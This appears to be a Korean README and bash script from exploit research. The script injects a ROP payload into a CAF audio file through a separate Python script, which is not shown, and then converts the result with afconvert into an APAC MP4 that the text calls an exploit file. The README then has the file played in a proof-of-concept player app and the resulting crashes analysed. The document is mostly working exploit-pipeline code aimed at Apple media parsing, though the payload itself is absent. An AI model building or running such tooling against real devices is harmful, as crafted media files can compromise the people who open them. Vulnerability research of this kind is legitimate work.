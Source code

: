 ## 스크립트: `mp4_rop_convert.sh`

### 기능
1. 지정한 `.caf` 파일에 ROP 페이로드 자동 삽입
2. `afconvert`를 사용해 APAC 형식의 `.mp4`로 변환

### 사용법

```bash
chmod +x mp4_rop_convert.sh
./mp4_rop_convert.sh <input.caf> [offset_hex]
```
- `<input.caf>`: 기존 `.caf` 파일 (e.g., `output.caf`)
- `[offset_hex]`: 페이로드 삽입 위치 (기본값 `0x100`)

### 예시

```bash
./mp4_rop_convert.sh output.caf 0x200
# patched.caf 생성
# output_rop.mp4 생성
```

### 결과
- `patched.caf`: ROP 페이로드가 삽입된 CAF 파일
- `output_rop.mp4`: APAC 포맷의 MP4 파일 (Exploit 파일)

### 이후 실험
- 이 `output_rop.mp4`를 PoC 앱(`APACExploitPlayer.swift`)에 포함시켜 재생
- LLDB 또는 Crash 로그 도구(`extract_crash_logs.sh`)로 충돌 분석



```bash
#!/bin/bash
# File: mp4_rop_convert.sh
# Description: Automate ROP payload injection and conversion to APAC MP4

# Usage: ./mp4_rop_convert.sh input.caf offset_hex
# Example: ./mp4_rop_convert.sh output.caf 0x200

INPUT_CAF="$1"
OFFSET="${2:-0x100}"
PATCHED_CAF="patched.caf"
OUTPUT_MP4="output_rop.mp4"

echo "[*] Injecting ROP payload at offset $OFFSET"
python inject_rop_payload.py "$INPUT_CAF" "$PATCHED_CAF" "$OFFSET"

echo "[*] Converting patched CAF to APAC MP4"
afconvert -o "$OUTPUT_MP4" -d apac -f mp4f "$PATCHED_CAF"

echo "[+] Generated $OUTPUT_MP4"

```
